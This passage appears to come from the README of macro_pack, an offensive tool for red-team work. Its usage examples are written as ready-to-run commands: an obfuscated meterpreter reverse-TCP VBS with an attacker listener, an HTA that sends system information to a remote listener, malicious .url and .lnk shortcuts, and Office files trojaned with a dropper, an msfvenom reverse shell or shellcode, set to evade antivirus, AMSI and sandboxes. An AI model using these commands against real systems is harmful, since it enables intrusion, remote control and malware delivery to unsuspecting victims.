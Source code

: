 <p align="center"><img src="./assets/iqy_dde.PNG" alt="IQY demo"></p>


 - Generate obfuscated meterpreter reverse TCP VBS file and run it 
 ```batch
# 1 Generate obfuscated VBS based on meterpreter template as well as Metasploit resource file
echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.vbs
# 2 On attacker machine Setup meterpreter listener
msfconsole -r meterpreter.rc
# 3 run VBS file with wscript (run 32bit wscript because meterpreter payload is 32bit)
%windir%\SysWoW64\wscript meter.vbs

 ```


- Generate obfuscated HTA file which executes "systeminfo" and returns result to another macro_pack listening on 192.168.0.5
```batch
# 1 Generate HTA file with REMOTE_CMD template
echo http://192.168.0.5:1234/a "systeminfo" | macro_pack.exe -t REMOTE_CMD -o -G info.hta
# 2 On 192.168.0.5 open macro_pack as http listener
macro_pack.exe -l . --port=1234
# 3 run hta file with mshta
mshta.exe full/path/to/info.hta
```


- Generate url shortcut which executes a local HTA file when you click on it
```batch
 echo "file://C:\Users\username\Desktop\hello.hta" | macro_pack.exe -G yop.url
```


- Generate lnk shortcut which executes a cmd running calc.exe with calc.exe icon
```batch
 echo '"c:\Windows\System32\cmd.exe /c calc.exe" "calc.exe"' | macro_pack.exe -G calc.lnk
```



### Some MacroPack Pro examples

- Trojan the existing shared "report.xlsm" file with a dropper. Use anti-AV and anti-reverse features.
```bash
echo "http://10.5.5.12/drop.exe" "dropped.exe" | macro_pack.exe -o -t DROPPER --bypass --stealth --antisandox --trojan "E:\accounting\report.xls"  
```

- Generate a Word file containing VBA self encoded x64 reverse meterpreter VBA payload (will bypass most AV). 
Keep-alive is needed because we need meterpreter to stay alive before we migrate.
```bash
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba |  macro_pack.exe -o --autopack --keep-alive  -G  out.docm
```

- Trojan a PowerPoint file with a reverse raw shellcode. Macro is obfuscated and mangled to bypass AMSI and most antiviruses.
```bash
echo beacon.bin | macro_pack.exe -o -t SHELLCODE --bypass -T  hotpics.pptm
```
